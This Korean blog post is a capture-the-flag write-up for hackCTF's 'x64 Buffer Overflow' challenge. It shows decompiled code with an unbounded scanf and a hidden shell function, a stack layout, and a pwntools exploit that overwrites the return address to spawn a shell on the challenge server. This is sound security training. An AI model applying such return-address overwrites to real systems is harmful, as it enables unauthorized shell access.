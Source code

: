 ```yaml
---
layout: post
title:  "[hackCTF]x64 Buffer Overflow"
date:   2020-02-18
---
```


hackCTF pwnable 다섯번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)


## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+10h] [rbp-110h]
  int v5; // [rsp+11Ch] [rbp-4h]

  _isoc99_scanf("%s", &s, envp); // stdin에서 문자열 형식으로 입력 받아 s에 저장
  v5 = strlen(&s); // s의 길이를 v5에 저장
  printf("Hello %s\n", &s, argv);
  return 0;
}
```
## ida - callMeMaybe
```c
int callMeMaybe()
{
  char *path; // [rsp+0h] [rbp-20h]
  const char *v2; // [rsp+8h] [rbp-18h]
  __int64 v3; // [rsp+10h] [rbp-10h]

  path = "/bin/bash";
  v2 = "-p";
  v3 = 0LL;
  return execve("/bin/bash", &path, 0LL); // 쉘을 띄울 수 있다!
}
```
<br>

정리해보자.<br><br>
***
| ret |           |
|:---:|:---------:|
| sfp |  (8byte)  |
| rbp |           |
| ... |           |
|  s  | rbp-0x110 |

***
<br>
callMeMaybe 함수를 실행시키면 쉘을 띄울 수 있다. 이전 문제와 동일한 방식으로 scanf를 통해 문제를 해결하자.<br><br>
목표 : ret을 callMeMaybe 함수의 주소로 덮기<br>
취약점 : scanf("%s", &s, envp)<br><br><br>
+) callMeMaybe 함수의 주소는 다음과 같다.

![0501](https://drive.google.com/uc?id=1LnLNJrmt7KXM1S5HHWFkw0vQywbEDzOd)

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3004)

payload = "\x90"*0x118+p64(0x400606)

p.sendline(payload)

p.interactive()
```

## 결과
![0502](https://drive.google.com/uc?id=1rK_l0M2NmPspC1udiy0B72-BrBogAAN8)
